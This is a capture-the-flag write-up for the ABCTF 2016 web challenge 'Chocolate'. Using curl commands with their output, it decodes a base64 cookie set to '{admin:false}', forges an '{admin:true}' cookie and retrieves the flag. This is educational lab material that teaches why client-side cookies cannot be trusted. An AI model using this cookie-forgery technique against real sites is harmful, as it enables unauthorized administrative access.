

_[<<< Return to ABCTF 2016 tasks and writeups](/2016-abctf)_
# Chocolate (Web Exploitation, 50 points)

>If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web3/)

The website says that we are not admin, let's see why.



```console
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/

HTTP/1.1 200 OK
[...cut...]
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: coookie=e2FkbWluOmZhbHNlfQ%3D%3D
[...cut...]

<html>
[...cut...]
You're not an admin. Please leave this site.
[...cut...]
</html>
```

It seems that the coookie (with three 'o') plays a key role in this challenge.

```console
root@blinils:~/abctf-2016# alias urldecode='python -c "import sys, urllib as ul; \
> print ul.unquote_plus(sys.argv[1])"'
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D
e2FkbWluOmZhbHNlfQ==
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D | base64 -d
{admin:false}
```

Indeed we need to modify the cookie in order to have the flag.

```console
root@blinils:~/abctf-2016# echo -n {admin:true} | base64
e2FkbWluOnRydWV9
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/ -H 'Cookie: coookie=e2FkbWluOnRydWV9'
<html>
[...cut...]
Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}
[...cut...]
</html>
```
